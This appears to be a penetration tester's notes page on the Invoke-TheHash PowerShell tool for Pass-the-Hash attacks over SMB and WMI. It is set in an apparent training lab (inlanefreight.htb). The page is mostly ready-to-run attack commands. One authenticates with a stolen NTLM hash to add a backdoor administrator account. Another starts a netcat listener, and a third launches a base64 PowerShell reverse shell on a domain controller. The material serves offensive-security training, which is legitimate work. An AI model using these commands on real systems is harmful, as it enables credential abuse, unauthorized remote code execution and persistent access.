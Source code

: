```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

[GitHub - Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

## Usage

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

### SMB

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

```powershell-session
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

### WMI

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

```powershell-session
.\nc.exe -lvnp 8001
```

See [[3. Exploitation/Remote Shells/1. Guide|Remote Shells]] and PowerShell Base64

```powershell-session
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <POWERSHELL BASE 64 REVERSE SHELL>"
```

